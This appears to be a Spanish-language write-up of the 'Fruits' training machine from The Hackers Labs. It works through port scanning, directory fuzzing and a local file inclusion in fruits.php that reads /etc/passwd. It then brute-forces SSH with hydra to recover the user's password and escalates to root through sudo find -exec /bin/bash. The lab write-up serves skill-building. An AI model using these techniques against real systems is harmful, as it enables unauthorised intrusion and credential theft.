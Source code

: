 
# Writeup Template: Maquina `[ Fruits ]`
- **Enumeración de aplicación web**: Exploración de contenido web visible y oculto para detectar puntos de entrada.
- **Enumeración de servicios**: Identificación de los servicios que corren en los puertos abiertos, incluyendo versiones.
- **Escaneo de puertos TCP**: Detección de puertos abiertos en la máquina objetivo mediante escaneo TCP.
- **Fuzzing de rutas web**: Ataque de fuerza bruta sobre rutas de la web para descubrir archivos o directorios.
- **Inclusión de archivos locales (LFI)**: Explotación de vulnerabilidades que permiten incluir archivos locales del sistema objetivo.

- Tags: #Fruits
- Dificultad: `[ Facil ]`
- Plataforma: `[ The Hackers Labs ]`

---
## Configuracion del Entorno
**Nota:** Pagina oficcioal donde descargo los laboratorios: [The Hackers Labs](https://labs.thehackerslabs.com/)
- Descargamos el archivo **( .ova )**
- Descomprimimos el archivo **zip**
- Importamos el **ova** en **virtualBox**

---
## Fase de Reconocimiento

### Direccion IP del Target
```bash
192.168.100.39
```
### Identificación del Target
Lanzamos una traza **ICMP** para determinar si tenemos conectividad con el target
```bash
ping -c 1 192.168.100.39 
```

### Determinacion del SO
Usamos nuestra herramienta en python para determinar ante que tipo de sistema opertivo nos estamos enfrentando
```bash
wichSystem.py 192.168.100.39
# TTL: [ 64 ] -> [ Linux ]
```

---
## Enumeracion de Puertos y Servicios
### Descubrimiento de Puertos
```bash
# Escaneo rápido con herramienta personalizada en python
escanerTCP.py -t 192.168.100.39 -p 1-65000

# Escaneo con Nmap
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 192.168.100.39 -oG allPorts
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo
```

### Análisis de Servicios
Realizamos un escaneo exhaustivo para determinar los servicios y las versiones que corren detreas de estos puertos
```bash
nmap -sCV -p22,80 192.168.100.39 -oN targeted
```

**Servicios identificados:**
```bash
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.57 ((DebianMantic))
```
---

## Enumeracion de [Servicio Web Principal]
direccion **URL** del servicio:
```bash
http://192.168.100.39/
```
### Tecnologías Detectadas
Realizamos deteccion de las tecnologias empleadas por la web
```bash
whatweb http://192.168.100.39/
http://192.168.100.39/ [200 OK] Apache[2.4.57], Country[RESERVED][ZZ], HTML5, HTTPServer[Debian Linux][Apache/2.4.57 (Debian)], IP[192.168.100.39], Title[Página de Frutas]
```
### Descubrimiento de Archivos y Rutas
```bash
gobuster dir -u http://192.168.100.39 -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 10 -x php,php.back,backup,txt,sh,html,js,java,py
```

- **Hallazgos**:
```bash
/index.html           (Status: 200) [Size: 1811]
/fruits.php           (Status: 200) [Size: 1]
```

---
## Explotacion de Vulnerabilidades
### Vector de Ataque
Revisando desde le codigo fuente tenemos un archivo **php**
```bash
# No funciona
<form action="[buscar.php](view-source:http://192.168.100.39/buscar.php)" method="GET">
```

Si accedemos a la siguiente ruta:
```bash
http://192.168.100.39/fruits.php
```

### Ejecucion del Ataque
Probamos apuntando si es vulnerable a **LFI**
```bash
wfuzz -c -t 50 -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt -u "http://192.168.100.39/fruits.php?FUZZ=/etc/passwd" --hh=1
```

Tenemso un parametro que ahora verificamos que archivos podemos leer del sistema
```bash
wfuzz -c -w /usr/share/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://192.168.100.39/fruits.php?file=FUZZ" --hh=1

# LFI
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                                                      
=====================================================================
000000258:   200        24 L     29 W       1128 Ch     "/etc/passwd"
```

Explitamos LFI
```bash
# Comandos para explotación
http://192.168.100.39/fruits.php?file=/etc/passwd
```

Tenemos a los usuarios del sistema:
```bash
<pre>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
mysql:x:102:110:MySQL Server,,,:/nonexistent:/bin/false
bananaman:x:1001:1001::/home/bananaman:/bin/bash
</pre>
```

Ahora con **hydra** realizaremos un ataque de fuerza bruta
```bash
hydra -l bananaman -P /usr/share/wordlists/rockyou.txt -f -t 4 ssh://192.168.100.39
```

Tenemos las credenciales para ganar acceso por **ssh**
```bash
[STATUS] 69.67 tries/min, 209 tries in 00:03h, 14344190 to do in 3431:38h, 4 active
[22][ssh] host: 192.168.100.39   login: bananaman   password: celtic
```
### Intrusion
Iniciamos la conexion por ssh
```bash
# Reverse shell o acceso inicial
ssh bananaman@192.168.100.39 # celtic
```

---

## Escalada de Privilegios

###### Usuario `[ bananaman ]`:
LIstando los permisos para este usuario tenemos lo siguiente:
```bash
sudo -l

User bananaman may run the following commands on Fruits:
    (ALL) NOPASSWD: /usr/bin/find
```

Explotamos el privilegio
```bash
# Comando para escalar al usuario: ( root )
bananaman@Fruits:~$ sudo -u root /usr/bin/find . -exec /bin/bash \; -quit
```

---

## Evidencia de Compromiso
Flag de usuario:
```bash
-rw-r--r-- 1 bananaman bananaman   33 mar 25  2024 user.txt
```

Flag de root:
```bash
-rw-r--r--  1 root root   33 mar 25  2024 root.txt
```

```bash
# Captura de pantalla o output final
root@Fruits:/home/bananaman# echo -e "\n[+] Hacked: $(whoami)\n"

[+] Hacked: root
```